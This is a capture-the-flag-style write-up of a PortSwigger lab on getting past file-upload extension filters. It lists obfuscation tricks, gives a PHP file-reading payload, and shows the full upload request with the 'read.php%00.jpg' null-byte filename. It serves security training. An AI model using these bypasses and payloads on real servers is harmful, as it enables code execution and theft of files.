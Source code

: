 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d6b467a7-692b-4d62-a041-782a96b7b269)

## Overview :

**Obfuscating file extensions -**

Even the most exhaustive blacklists can potentially be bypassed using **classic obfuscation techniques**. Let's say the validation code is case sensitive and **fails to recognize that `exploit.pHp` is in fact a `.php` file**. If the code that subsequently maps the file extension to a MIME type is not case sensitive, this discrepancy allows you to sneak malicious PHP files past validation that may eventually be executed by the server. 

 You can also achieve similar results using the following techniques:

- **Provide multiple extensions**- `exploit.php.jpg`
- **Add trailing characters**- Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
- **URL encoding (or double URL encoding) the dots, forward slashes, and backward slashes** -  If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`
- **Add semicolons or URL-encoded null byte characters before the file extension** - If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
- Try using **multibyte unicode characters**, which may be converted to _null bytes and dots after unicode conversion or normalization_. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` **if the filename parsed as a UTF-8 string**, but then converted to ASCII characters before being used in a path.

> Other defenses involve stripping or replacing dangerous extensions to prevent the file from being executed. If this transformation isn't applied
> recursively, you can position the prohibited string in such a way that removing it still leaves behind a valid file extension. For example, consider
> what happens if you strip `.php` from the following filename: `exploit.p.phphp`

## Solution :

Log in as wiener using the credentials provided. Upload a *.php* file with the contents : `<?php echo file_get_contents('/home/carlos/secret'); ?>`

### Uploading .php file -

The following is the POST request sent when uploading an avatar.

```
POST /my-account/avatar HTTP/1.1
Host: 0a87008704f75da98037b8c300a60099.web-security-academy.net
Cookie: session=iDD3MDQvlWdNxVZsP37i3wNB6JgGcov3
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------6170160073347684872772099132
Content-Length: 535
Origin: https://0a87008704f75da98037b8c300a60099.web-security-academy.net
Referer: https://0a87008704f75da98037b8c300a60099.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------6170160073347684872772099132
Content-Disposition: form-data; name="avatar"; filename="read.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------6170160073347684872772099132
Content-Disposition: form-data; name="user"

wiener
-----------------------------6170160073347684872772099132
Content-Disposition: form-data; name="csrf"

ECWAM2zUPdHzP1UJam8yAr0TIumvPr9Q
-----------------------------6170160073347684872772099132--
```
Since we uploaded a .php file we get a response stating that only JPG & PNG files are allowed.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5d8f3d8a-d0ab-42a0-b17f-75a1c5d6a92f)

### Uploading .php.jpg file - 

So I tried various obfuscating ways but he one that worked for me is changeing the filename parameter to - `filename="read.php.jpg"` 

The server just checks that it ends with *.jpg* , if YES then the file is uploaded. This is a very weak defense mechanism being implemented.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6411ad7b-a50d-44af-ae1f-fb486cbb9765)


But when we try to access the file, we get this error

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/efe5b6b6-770c-4ee5-8bc8-160edd4bd3ef)

Thjs is beacuse the file is saved with .jpg extension, so the server is facing error when processing it since it considers it as a jpg file.

### Uplaoding .php%00.jpg file

To prevent this , we need to somehow make the server execute this as a .php file. For this we can use `%00` **nullbyte** character before the extension.

ie - `read.php%00.jpg` . This way when the server processes the file  using lower-level functions in C/C++, it treats nullbyte as end of string  & thus it is validated as  **read.php** and finally executes it.

So when we chaange `filename="read.php%00.jpg"` and forward the request, we get a response stating that **read.php** has been uploaded .

> Notice that the server response is **read.php** and not **read.php.jpg**

Now we can read the file at */files/avatars/read.php* to get the secret key of carlos.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/351bbb5e-01b6-47bc-8fa5-2bf716979ddf)

Submit the key to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/327afa21-769d-45b8-adf4-e7f8584c6f91)

